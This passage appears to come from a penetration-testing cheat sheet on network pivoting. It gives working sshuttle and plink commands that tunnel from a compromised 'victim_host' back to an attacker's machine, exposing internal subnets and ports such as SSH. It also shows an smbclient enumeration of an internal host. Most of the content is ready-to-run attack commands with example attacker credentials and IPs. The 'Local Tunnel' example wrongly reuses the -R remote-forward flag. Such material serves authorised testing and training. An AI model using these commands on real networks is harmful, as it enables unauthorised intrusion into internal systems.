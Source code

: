 ```
sudo sshuttle -vNHr victim_user@victim_host
```

The above command will create `iptables` `nat` rules to forward all networks that `victim_host` is connected to back to the attacker.

* `-H` automatically updates the local `/etc/hosts` with maching remote hostnames
* `-N` automatically attempts to route all subnets of the ssh server

Then, the attacker can simply use a tool to connect to the desired host/port inside the _internal_ network, which is normally inacessible, e.g.:

```
smbclient -L 172.16.45.130
```

If you went to use a specific ssh command to connect to the remote server, such as specifying your `rsa` private key, you can use the `-e` like so:

```
sshuttle -e "ssh -i id_rsa" -r victim_user@victim_host 172.168.1.0/24
```

The above command only routes subnet `172.168.1.0/24` back to the attacker

`sshuttle` actually has a wealth of additional functionalities, you can further refer to its man-page.

## Plink

#### Remote Tunnel

```
cmd.exe /c echo y | plink.exe -ssh -l [attacker_username] -pw [attacker_ssh_password] -R [attacker_ip]:[attacker_port]:[victim_ip]:[victim_port] [attacker_ip]
```

for example, suppose you have gained access at a dual-homed host and using this access, you want to access a port at another host that is not connected to the internet (you can't directly talk to it) but is accessible from the host you have access to:

* `attacker_ip` = 13.13.13.13
* `attacker_port` = 2222 (this is the final port that will accept the remote connection)
* `victim_ip` = 10.10.10.10 (IP of the inaccessible host)
* `victim_port` = 22 (Port of the inaccessible host that you will tunnel outside)

`cmd.exe /c echo y | plink.exe -ssh -l root -pw toor -R 13.13.13.13:2222:10.10.10.10:22 13.13.13.13`

#### Local Tunnel

If you don't want to do an SSH remote port forwarding, but a local one instead:

```
cmd.exe /c echo y | plink.exe -ssh -l root -pw toor -R [attacker_ip]:[attacker_port]:127.0.0.1:[victim_port] [attacker_ip]
```

